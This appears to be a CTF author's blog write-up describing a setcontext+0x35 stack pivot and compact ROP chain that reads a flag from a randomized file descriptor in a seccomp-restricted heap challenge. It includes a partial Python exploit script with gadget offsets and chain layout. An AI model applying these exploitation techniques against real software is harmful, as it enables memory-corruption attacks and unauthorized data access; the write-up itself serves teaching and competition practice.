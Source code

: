 ```yaml
---
title: ROP-ing with setcontext
date: 2024-08-31 10:00:00 -0500
categories: [pwn, ctf]
tags: [linux, pwn, ctf]
author: oreo
dsecription: ROP-ing with setcontext
---
```


## Introduction

While writing a heap pwn challenge for Sunshine CTF called "Secure Flag Terminal", I wanted to make my challenge more difficult than a traditional House of Force exploit. So I wrote a whitelist seccomp filter and stored the flag's fd on the heap (I randomized the fd to prevent easy cheesing); I did this to remove the use of *one_gadgets*, calling system, or a standard open/read/write chain that people might have prepared already. To solve the challenge, they basically needed to trigger a ROP chain through either `__malloc_hook` or `__free_hook`. I've never ROP-ed from the glibc hooks before, so I had to figure it out on the fly.

To write my solve script, I needed to find a suitable gadget, or chain of gadgets, to perform the following:

- Stack pivot
- Prepare args for my ROP chain
- Execute my ROP chain

> The stack pivot gagdet is arguably the most important component here, and finding a good one can be challenging at times.
{: .prompt-tip}

While searching, I found a very useful blog post by [Midas](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/). It essentially demonstrates the utility of the Setcontext API in GLIBC (specifically `setcontext+0x35`) in performing the above requirements through a reliable open-read-write ROP chain that they wrote. Funnily enough, they recommend using it in the *context* of heap exploitation - nice pun right? My challenge utilizes a House of Force technique and tcache poisoning, so we have heap exploitation pretty well covered.

## My Implementation

Using the `setcontext+0x35` ROP gadget/chain, in my opinion, is almost equivalent to finding a one_gadget - especially if your intention isn't spawning a shell. It allows you to set basically all of the registers besides `rax` (unless you want to null it out).

![setcontext rop gadgets](/assets/images/setcontext/rop_gadgets.png)

> The stack pivot is here: `mov rsp, qword [rdi + 0xa0]`, and `RDI` is user-controlled!!
{: .prompt-info}

One thing I noticed in [Midas's](https://lkmidas.github.io/posts/20210103-heap-seccomp-rop/) PoC is that it doesn't utilize all of the `mov r*, qword ptr [rdi+0x*];` instructions. Rather, they used what they needed and then added the rest of the chain afterwards. I felt that was a bit wasteful and not applicable in cases where your input size is restricted (like my challenge). As a result, I wrote a ROP chain entirely encased within the slew of `mov` instructions in this gadget:

```python
(...)

pop_rdi = 0x000000000002164f + libc.address # pop rdi; ret;
mov_rdi = 0x00000000000520c9 + libc.address # mov rdi, qword ptr [rdi + 0x68]; xor eax, eax; ret;
pop_rdx = 0x0000000000001b96 + libc.address # pop rdx; ret;
pop_rsi = 0x0000000000023a6a + libc.address # pop rsi; ret;
pop_rax = 0x000000000001b500 + libc.address # pop rax; ret;
syscall_ret = 0x00000000000d2625 + libc.address # syscall; ret;

# Call gadget for setcontext <-- hook malloc with this and do malloc(heap_ptr)
# setcontext will perform stack pivot to heap chunk
# Prime heap with rest of rop chain to perform read-write and win flag

chain = p64(libc.sym['setcontext'] + 0x35) # stack pivot + arg setup <-- [rdi] (chunk_ptr)
chain += p64(0) # read syscall value for rax                         <-- [rdi + 0x08]
chain += p64(mov_rdi) # dynamically determine fd from heap           <-- [rdi + 0x10]
chain += p64(syscall_ret) #                                          <-- [rdi + 0x18]
chain += p64(pop_rdi) #                                              <-- [rdi + 0x20]
chain += p64(0x1) # stdout                                           <-- [rdi + 0x28] = r8
chain += p64(pop_rsi) #                                              <-- [rdi + 0x30] = r9
chain += p64(chunk_ptr + 0x400) # buffer addr                        <-- [rdi + 0x38]
chain += p64(pop_rdx) #                                              <-- [rdi + 0x40]
chain += p64(0x24) # size to write                                   <-- [rdi + 0x48] = r12
chain += p64(pop_rax) #                                              <-- [rdi + 0x50] = r13
chain += p64(0x1) # sys_read                                         <-- [rdi + 0x58] = r14
chain += p64(syscall_ret) #                                          <-- [rdi + 0x60] = r15
chain += p64(fd - 0x68) # offsetted ptr for fd (see mov_rdi)         <-- [rdi + 0x68] = rdi
chain += p64(chunk_ptr + 0x400) # buffer addr for sys_read           <-- [rdi + 0x70] = rsi
chain += p64(0) * 2 # padding                                        <-- [rdi + 0x78/0x80] = rbp/rbx
chain += p64(0x24) # size to read (setcontext ROP -> sys_read)       <-- [rdi + 0x88] = rdx
chain += b'A' * 8 # padding                                          <-- [rdi + 0x90]
chain += b'B' * 8 # padding                                          <-- [rdi + 0x98] = rcx
chain += p64(chunk_ptr + 0x8) # heap buffer for stack pivot          <-- [rdi + 0xa0] = rsp
chain += p64(pop_rax) # for push rcx, sets rax for sys_read          <-- [rdi + 0xa8] = rcx

(...)
```

You can view the full exploit/solve script for my challenge [here](https://github.com/SunshineCTF/SunshineCTF-2024-Public/blob/main/Pwn/Secure_Flag_Terminal/solve.py).

Now, I don't think what I did is novel in any regard, but I'm quite proud of it and the fact that I was able to compress my ROP chain within the buffer required for `setcontext+0x35`.
